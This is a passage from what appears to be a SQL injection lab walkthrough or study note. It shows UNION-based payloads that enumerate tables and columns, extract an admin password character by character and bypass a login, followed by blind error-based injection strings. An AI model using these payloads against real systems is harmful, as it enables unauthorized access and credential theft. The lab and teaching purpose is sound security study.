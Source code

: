 4. Finding Table Names:  
- Query the `information_schema.tables` to enumerate tables in the database:  
```
admin123' UNION SELECT 1,2,3 FROM information_schema.tables  
WHERE table_schema = 'sqli_three' AND table_name LIKE 'u%';--  
```
- Cycle through patterns to identify table names (e.g., `users`).

5. Identifying Column Names:  
- Query the `information_schema.columns` to enumerate column names in the `users` table:
```
admin123' UNION SELECT 1,2,3 FROM information_schema.columns  
WHERE table_schema = 'sqli_three' AND table_name = 'users'  
AND column_name LIKE 'u%';--  
```
- Repeat until all column names (e.g., `id`, `username`, `password`) are discovered.  

6. Extracting Data:
- Once table and column structures are known, use the discovered columns to query specific data:  
Find a valid username:  
`admin123' UNION SELECT 1,2,3 FROM users WHERE username LIKE 'a%';--`  
Discover the password for `admin`:  
`admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE 'a%';--`  
- Continue iterating character by character to retrieve the full password (e.g., `3845`).

7. Bypassing Login:  
- Use the discovered credentials (admin and 3845) on the login form to gain access.

8. Finding columns with a useful data type in an SQL injection UNION attack (example not related to initial set up):
Probe each column to test whether it can hold string data by submitting a series of UNION SELECT payloads that place a string value into each column in turn:  
`' UNION SELECT 'a',NULL--`  
Error message:  
Conversion failed when converting the varchar value 'a' to data type int.  
```
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'a'--
```

### Exploiting blind SQL injection by triggering conditional errors
If an application’s response doesn’t change based on SQL query results, traditional boolean-based injection won’t work. Instead, you can trigger a SQL error when a condition is true, causing a different application response (e.g., an error message). This helps infer the truth of the injected condition.
Example:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
With the first input, the CASE expression evaluates to 'a', which does not cause any error.
With the second input, it evaluates to 1/0, which causes a divide-by-zero error.
